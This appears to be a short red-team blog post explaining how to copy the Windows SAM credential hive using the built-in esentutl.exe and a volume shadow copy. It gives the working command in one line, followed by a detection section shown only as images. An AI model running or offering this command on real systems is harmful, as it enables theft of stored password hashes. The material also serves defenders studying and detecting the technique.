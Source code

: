 ```yaml
---
layout: post
title: "dumping sam via esentutl.exe"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-sam-via-esentutl.exe/
---
```


---
layout: post
title: "dumping sam via esentutl.exe"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-sam-via-esentutl.exe/
---

# Dumping SAM via esentutl.exe

## Execution

It's possible to use esentutl.exe that comes with Windows and dump SAM/Security hives like so:

```
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

![](<../../.gitbook/assets/image (632).png>)

## Observation

The below are some potential IOCs for detecting this technique:

![](<../../.gitbook/assets/image (633).png>)

## References

{% embed url="https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running" %}
@spotheplanet
